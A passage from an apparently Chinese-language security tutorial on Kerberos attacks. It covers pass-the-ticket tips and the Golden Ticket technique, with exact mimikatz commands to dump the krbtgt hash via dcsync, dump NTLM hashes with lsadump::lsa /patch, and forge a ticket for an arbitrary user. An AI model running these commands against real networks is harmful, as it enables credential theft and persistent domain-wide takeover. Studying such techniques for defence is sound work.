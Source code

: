 如图，导入成功![Alt text](http://drops.javaweb.org/uploads/images/d47453ca79bb6e0292a8ff45333983df6cd20d6a.jpg)

查看是否有域控权限，如图![Alt text](http://drops.javaweb.org/uploads/images/8316d8a8409a1f2f5c347dda0317e3aabef030cd.jpg)

> **Tips：**
> 
> 1.  64位系统使用ptt功能要用32位的mimikatz，如果用64的mimikatz，那么无法导入Ticket
> 2.  这种方式导入的Ticket默认在10小时以内生效

0x04 Golden Ticket
=====

每个用户的Ticket都是由krbtgt的密码Hash来生成的，那么，我们如果拿到了krbtgt的密码Hash，不就可以随意伪造Ticket了吗？

实际上只要拿到了域控权限，在上面就可以很容易的获得krbtgt的Hash值，再通过mimikatz即可生成任意用户任何权限的Ticket，也就是Golden Ticket

### 1、导出krbtgt的Hash

在域控上执行

```
mimikatz log "lsadump::dcsync /domain:test.local /user:krbtgt"

```

生成mimikatz.log记录输出，使用log输出是为了方便复制Hash值

如图:![Alt text](http://drops.javaweb.org/uploads/images/1104a160a14d532b5b6b02dcbb17ad3677b02451.jpg)

找到如下信息：

```
/domain：test.local
/sid:S-1-5-21-4155807533-921486164-2767329826 
/aes256:af71a24ea463446f9b4c645e1bfe1e0f1c70c7d785df10acf008106a055e682f

```

### 2、生成Golden Ticket

伪造的用户设置为god,执行

```
mimikatz "kerberos::golden /domain:test.local /sid:S-1-5-21-4155807533-921486164-2767329826 
/aes256:af71a24ea463446f9b4c645e1bfe1e0f1c70c7d785df10acf008106a055e682f /user:god 
/ticket:gold.kirbi"

```

生成文件gold.kirbi

> **Tips:**
> 
> 生成Golden Ticket不仅可以使用aes256，也可用krbtgt的NTLM hash  
> 可以用`mimikatz "lsadump::lsa /patch"`导出
